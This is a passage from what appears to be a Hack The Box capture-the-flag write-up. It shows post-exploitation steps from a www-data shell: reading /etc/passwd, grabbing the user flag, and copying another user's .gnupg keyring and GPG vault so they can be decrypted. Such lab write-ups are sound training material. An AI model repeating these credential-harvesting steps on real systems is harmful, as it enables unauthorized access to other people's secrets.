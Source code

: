 ```bash
www-data@environment:/$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
hish:x:1000:1000:hish,,,:/home/hish:/bin/bash
```

Our next target is the `hish` user

Taking a look at `/home/hish`

```bash
www-data@environment:/home/hish$ ls -la
total 36
drwxr-xr-x 5 hish hish 4096 Apr 11 00:51 .
drwxr-xr-x 3 root root 4096 Jan 12  2025 ..
lrwxrwxrwx 1 root root    9 Apr  7 19:29 .bash_history -> /dev/null
-rw-r--r-- 1 hish hish  220 Jan  6  2025 .bash_logout
-rw-r--r-- 1 hish hish 3526 Jan 12  2025 .bashrc
drwxr-xr-x 4 hish hish 4096 Aug 15 04:46 .gnupg
drwxr-xr-x 3 hish hish 4096 Jan  6  2025 .local
-rw-r--r-- 1 hish hish  807 Jan  6  2025 .profile
drwxr-xr-x 2 hish hish 4096 Jan 12  2025 backup
-rw-r--r-- 1 root hish   33 Aug 14 20:02 user.txt
```

`user.txt` is readable globally so we can grab the flag

![htb-environment-user-txt](images/HTB-environment/htb-environment-user-txt.png)

In `hish`'s backup directory there is a file named `keyvault.gpg`

```bash
www-data@environment:/home/hish/backup$ ls -la
total 12
drwxr-xr-x 2 hish hish 4096 Jan 12  2025 .
drwxr-xr-x 5 hish hish 4096 Apr 11 00:51 ..
-rw-r--r-- 1 hish hish  430 Aug 15 04:50 keyvault.gpg
```

To make `gpg` work correctly we should copy the `.gnupg` folder and `keyvault.gpg` file to a directory we have write permissions in

```bash
mkdir /tmp/.dasian
```

According to the [documentation](https://www.gnupg.org/documentation/manuals/gnupg/GPG-Configuration.html){:target="_blank"}{:rel="noopener noreferrer"}, we should also change the `HOME` environment variable

```bash
# important env variable to make gpg work correctly
HOME=/tmp/.dasian
cp /home/hish/backup/keyvault.gpg /tmp/.dasian
cp -r /home/hish/.gnupg /tmp/.dasian
```

